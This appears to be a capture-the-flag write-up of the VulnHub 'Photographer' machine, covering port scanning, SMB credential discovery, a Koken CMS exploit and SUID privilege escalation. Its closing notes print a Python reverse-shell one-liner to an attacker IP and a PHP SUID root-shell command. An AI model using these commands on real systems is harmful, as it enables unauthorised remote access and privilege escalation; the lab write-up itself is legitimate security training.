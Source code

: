 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc]
---
```

# Photographer


## **Description ⤵️**


💡 [Photographer : 1](https://vulnhub.com/entry/photographer-1,519/) ⤵️

This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.



Let’s find the IP Address first >>

```bash
IP : 10.0.2.25
```

## Port Scan Results ➡️

![124-1.png](/Vulnhub-Files/img/Photographer/124-1.png)

![124-2.png](/Vulnhub-Files/img/Photographer/124-2.png)

```bash
OPEN PORTS >
80   HTTP
139  SMB
445  SMB
8000 HTTP
```

---

## Web Enumeration ⤵️

![125-1.png](/Vulnhub-Files/img/Photographer/125-1.png)

Lets first do some directory traversal →

![127-1.png](/Vulnhub-Files/img/Photographer/127-1.png)

![125-2.png](/Vulnhub-Files/img/Photographer/125-2.png)

![125-3.png](/Vulnhub-Files/img/Photographer/125-3.png)

Lets check the SMB part →

![128-1.png](/Vulnhub-Files/img/Photographer/128-1.png)

![128-2.png](/Vulnhub-Files/img/Photographer/128-2.png)

![128-3.png](/Vulnhub-Files/img/Photographer/128-3.png)

```bash
Lets try these credentials → 
→ agi@photographer.com
→ daisa@photographer.com
→ my babygirl
So the final credentials were → 
ID     : daisa@photographer.com
pass : babygirl
```

![128-4.png](/Vulnhub-Files/img/Photographer/128-4.png)

Now after login to koken site Let's further Enumerate →

![125-4.png](/Vulnhub-Files/img/Photographer/125-4.png)

Let's follow the exploit path →

![125-5.png](/Vulnhub-Files/img/Photographer/125-5.png)

![125-6.png](/Vulnhub-Files/img/Photographer/125-6.png)

got the results →

![125-7.png](/Vulnhub-Files/img/Photographer/125-7.png)

Then I executed the python reverse shell code and I got this →

![126-1.png](/Vulnhub-Files/img/Photographer/126-1.png)

![126-2.png](/Vulnhub-Files/img/Photographer/126-2.png)

```bash
user.txt → d41d8cd98f00b204e9800998ecf8427e
```

while cheching the SUID file I got this →

![126-3.png](/Vulnhub-Files/img/Photographer/126-3.png)

![126-4.png](/Vulnhub-Files/img/Photographer/126-4.png)

![126-5.png](/Vulnhub-Files/img/Photographer/126-5.png)

![126-6.png](/Vulnhub-Files/img/Photographer/126-6.png)

```bash
proof.txt → d41d8cd98f00b204e9800998ecf8427e
```

---

# **Summery Notes →**

Koken 0.22.24

daisa@photographer.com

agi@photographer.com

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

`.**/**usr**/**bin**/**php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"`